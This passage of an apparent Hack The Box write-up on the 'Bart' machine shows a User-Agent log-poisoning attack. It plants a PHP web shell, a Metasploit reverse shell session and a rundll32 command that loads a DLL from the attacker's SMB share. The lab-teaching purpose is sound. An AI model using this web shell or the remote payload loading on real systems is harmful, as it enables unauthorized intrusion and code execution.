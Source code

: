 We use a firefox plugin to set our user agent to something like ```<?php passthru($_GET['bang']); ?>``` then click the log button. Now we check log.txt and can see our php shell in there.
```bash
$ curl http://internal-01.bart.htb/log/log.txt 
[2018-02-21 22:35:17] - harvey - Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
[2019-07-20 02:02:05] - harvey - <?php passthru($_GET['bang']); ?>
```
If we visit log.php with a bang= parameter in the request we can execute one command at a time with this.


![](pics/cmdexec.JPG)

Now to get a shell, first we try using the quick and easy method of impacket smbserver and a typical msf binary, but it's being blocked by some AV on the box and we get disconnected after a few seconds so sad. 


![](pics/shellexec.JPG)

```bash
[*] Started reverse TCP handler on 10.10.14.20:443
msf5 exploit(multi/handler) > [*] Sending stage (206403 bytes) to 10.10.10.81

msf5 exploit(multi/handler) > [*] Meterpreter session 4 opened (10.10.14.20:443 -> 10.10.10.81:50302) at 2019-07-22 18:08:49 -0400

msf5 exploit(multi/handler) > [*] 10.10.10.81 - Meterpreter session 4 closed.  Reason: Died
```


[localhost]: PS C:\Users\Administrator\Documents> whoami
[localhost]: PS C:\Users\Administrator\Documents> cmd.exe /c "rundll32.exe \\10.10.14.20\BLAH\64443.dll,0"